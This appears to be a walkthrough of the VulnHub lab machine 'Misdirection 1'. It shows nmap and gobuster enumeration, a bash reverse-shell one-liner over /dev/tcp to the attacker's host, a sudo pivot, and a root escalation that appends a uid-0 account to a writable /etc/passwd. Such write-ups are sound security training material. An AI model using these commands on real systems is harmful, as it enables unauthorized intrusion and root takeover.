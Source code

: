 ```yaml
---
title: VulnHub - Misdirection 1
author: ret2x
date: 2021-07-13 20:23:15 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, command injection]
image:
    path: /assets/images/misdirection/front.png
---
```


**Description:** A linux machine hosting a web backdoor which allows the execution of system commands. Inappropriate permissions granted on sensitive files allowed to gain root privileges.

**Author:** FalconSpy

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/misdirection-1,371/](https://www.vulnhub.com/entry/misdirection-1,371/)

## Information Gathering
### Host Discovery

We enumerate the local network to find the target machine.

```console
root@kali:~$ nmap -sn -n 192.168.179.1/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-13 19:32 -05
Nmap scan report for 192.168.179.141
Host is up (0.00078s latency).
MAC Address: 00:0C:29:10:9B:9B (VMware)
Nmap scan report for 192.168.179.254
Host is up (0.00017s latency).
MAC Address: 00:50:56:E9:4A:73 (VMware)
Nmap scan report for 192.168.179.1
Host is up.
```

### Port Scanning

Located the target, I proceed to perform a TCP port scan for all ports with nmap.

```console
root@kali:~$ nmap -T4 -p1-65535 -vv -n 192.168.179.141 -oG tcp-all-ports.txt
...
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
80/tcp   open  http       syn-ack ttl 64
3306/tcp open  mysql      syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:10:9B:9B (VMware)
...
```

### Service Enumeration

Then I do the service enumeration to the open TCP ports.

```console
root@kali:~$ nmap -sV -sC -p22,80,3306,8080 -vv -n 192.168.179.141 -oN service-enum.txt
...
PORT     STATE SERVICE REASON         VERSION                                                                                                                      
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                 
| ssh-hostkey:                                                                                                                                                     
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7
jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h
3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5                                                                                                           
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY= 
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: 502 Proxy Error
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:10:9B:9B (VMware)
...
```

### Web Enumeration

Poked around the web page on port 80 I didn't found nothing interesting.

![](/assets/images/misdirection/screenshot-1.png)

So I'm heading to enumerate the web page on port 8080, but at a  glance I can't find anything, so I run gobuster to find hidden web directories and files.

![](/assets/images/misdirection/screenshot-2.png)

```console
root@kali:~$ gobuster dir -u http://192.168.179.141:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt,sql -e
...
http://192.168.179.141:8080/index.html           (Status: 200) [Size: 10918]
http://192.168.179.141:8080/images               (Status: 301) [Size: 326] [--> http://192.168.179.141:8080/images/]
http://192.168.179.141:8080/help                 (Status: 301) [Size: 324] [--> http://192.168.179.141:8080/help/]  
http://192.168.179.141:8080/scripts              (Status: 301) [Size: 327] [--> http://192.168.179.141:8080/scripts/]
http://192.168.179.141:8080/css                  (Status: 301) [Size: 323] [--> http://192.168.179.141:8080/css/]    
http://192.168.179.141:8080/wordpress            (Status: 301) [Size: 329] [--> http://192.168.179.141:8080/wordpress/]
http://192.168.179.141:8080/development          (Status: 301) [Size: 331] [--> http://192.168.179.141:8080/development/]
http://192.168.179.141:8080/manual               (Status: 301) [Size: 326] [--> http://192.168.179.141:8080/manual/]     
http://192.168.179.141:8080/js                   (Status: 301) [Size: 322] [--> http://192.168.179.141:8080/js/]         
http://192.168.179.141:8080/shell                (Status: 301) [Size: 325] [--> http://192.168.179.141:8080/shell/]      
http://192.168.179.141:8080/debug                (Status: 301) [Size: 325] [--> http://192.168.179.141:8080/debug/]
...
```

Checking the **debug** directorie I find a script that allows run system commands.

![](/assets/images/misdirection/screenshot-3.png)

## Exploitation
### Command Injection
**Getting a reverse shell**

Then we first set up a netcat listener and execute the the following instruction:

```console
bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"
```

![](/assets/images/misdirection/screenshot-4.png)

And we get a reverse shell, after enumerating the sudo permissions I see that the bash command is possible execute it without password as the brexit user.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.141] 34318
bash: cannot set terminal process group (1047): Inappropriate ioctl for device
bash: no job control in this shell
www-data@misdirection:/var/www/html/debug$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection:/var/www/html/debug$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

After to execute the bash command as the brexit user, we get a bash session and spawn a TTY shell. 

```console
www-data@misdirection:/var/www/html/debug$ sudo -u brexit /bin/bash
python -c 'import pty;pty.spawn("/bin/bash")'
brexit@misdirection:~$ uname -a
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### Insecure file permissions

Enumerating the system I managed to identify that the **passwd** file has write permissions for the brexit user.

```console
brexit@misdirection:/tmp$ ls -la /etc/passwd
-rwxrwxr-- 1 root brexit 1617 Jun  1  2019 /etc/passwd
```

In our attacking machine we generate a password hash with openssl.

```console
root@kali:~$ openssl passwd -1 get.r00t
$1$7Stc2cvP$1EtnNyONHtdDuHw2C9rNb1
```

Then we redirect our s4rgas user with the uid and gid set to 0 to the **passwd** file, and we switch to the new user with root privileges.

```console
brexit@misdirection:/tmp$ echo 's4rgaz:$1$7Stc2cvP$1EtnNyONHtdDuHw2C9rNb1:0:0:root:/root:/bin/bash' >> /etc/passwd
brexit@misdirection:/tmp$ su s4rgaz
Password: 
root@misdirection:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
